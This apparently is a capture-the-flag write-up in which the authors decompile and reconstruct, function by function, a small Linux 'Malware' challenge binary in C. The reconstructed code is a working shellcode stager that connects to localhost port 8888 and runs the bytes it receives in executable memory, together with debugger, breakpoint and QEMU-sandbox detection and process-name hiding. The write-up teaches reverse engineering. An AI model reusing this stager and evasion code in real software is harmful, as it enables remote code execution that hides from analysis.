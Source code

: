 # Malware

## Introduction

The first thing we tackled was `main` while stubbing out all of the functions.
We got tripped up while defining `payload` and `check` as the following:

```c
int check(void){
  return 0;
}

int payload(void){
  return 0;
}
```

This resulted in two lines of assembly clearing $eax before `call`'ing both of
these functions. I'm not sure why this occurs, but some [Stack Overflow] hinted
that it may have been because the compiler didn't know how many arguments the
function could take (even though we specified `void`?). It then would have not
made any assumptions about the arguments. In [variadic] functions, $AL
is used to hold the number of vector registers holding arguments to the
function. This register needs to be cleared before calling the function if we
indeed aren't passing it any arguments. Just a guess though?

We then looked at `hide` which was pretty straightforward from the Binary Ninja
output. The only sticky part was the assembly instruction `cdqe` which sign
extended a 32bit value into a 64bit register. Thus in the call to `sprintf` we
had to cast the value to an `long`. This got us a match for this small function.

```c
int hide(char ** a){
  int len;
  len = strlen(*a);
  prctl(PR_SET_NAME, PROC_NAME);
  return snprintf(*a, len, "%s%*c", PROC_NAME, (long)len-4, " ");
}
```

The next shortest function was `myprint`. This was also copy-paste from Binary
Ninja where the latters output was the following:

```c
int64_t myprint(char* arg1)

int32_t len = strlen(arg1)
char* buf = malloc(bytes: sx.q(len))
strcpy(buf, arg1)
for (int32_t var_18 = 0; var_18 s< len; var_18 = var_18 + 1)
    buf[sx.q(var_18)] = buf[sx.q(var_18)] - 1
puts(str: buf)
fflush(fp: stdout)
return free(mem: buf)
```

And our 100% match of the function:

```c
void myprint(char * a){
  int32_t len;
  char * buf;

  len = strlen(a);
  buf = malloc((int64_t)len); // Again, the `cdqe` instruction popped up.

  strcpy(buf, a);
  for (int32_t i = 0; i < len; i+=1){
    buf[i] = buf[i] - 1;
  }
  puts(buf);
  fflush(stdout);
  return free(buf);

  return;
}
```

The tricky part about `payload` was that you needed to recognize that there was
a struct present in the function. This was made clear with Ghidra's output (I
am a lot more familiar with laying out structures in Ghidra than I am with
Binja.):

![Ghidra](./resources/ghidra.png)

Knowing that, we got a 100% match with:

```c
int payload(){

  int fd;
  int conn;
  struct sockaddr_in sa;
  void * buf;

  fd = socket(2, 1, 0);

  sa.sin_addr.s_addr = inet_addr("127.0.0.1");
  sa.sin_family = AF_INET;
  sa.sin_port = htons(8888);

  if (connect(fd, &sa, 16) < 0){
    myprint("Dpoofdujpo!gbjmfe/");
    exit(4);
  }
  buf = mmap(NULL,4096,7,0x22,-1,0);
  if (read(fd, buf, 1024) < 0){
    myprint("Dbo(u!sfbe/");
    exit(5);
  }
  myprint("Mfu(t!hp/");
  (*(void(*)())buf)();

  return 0;
}
```

`check` was tricky because of the buffer that was zeroed out on the stack. We
had to get some assistance after the challenge to figure that part out and get
the stack offsets to align correctly.

```c
void check(){
  int fd;
  char buf[16] = {0};

  if (((*(unsigned char *)payload) & 0xff) == 0xcc){
    myprint("Csfblqpjou!efufdufe/");
    exit(1);
  }

  if (ptrace(PTRACE_TRACEME, 0) == -1){
    myprint("Efcvhhfs!efufdufe/");
    exit(2);
  }

  fd = open("/sys/class/dmi/id/sys_vendor", O_RDONLY);
  read(fd, buf, 8);
  if (strncmp(buf, "QEMU", 4) == 0){
    myprint("Tboecpy!efufdufe/");
    exit(3);
  }
}
```

This was a great challenge and we learned a lot from the disassembly!

[Stack Overflow]:https://stackoverflow.com/questions/6212665/why-is-eax-zeroed-before-a-call-to-printf
[variadic]: https://en.wikipedia.org/wiki/Variadic_function
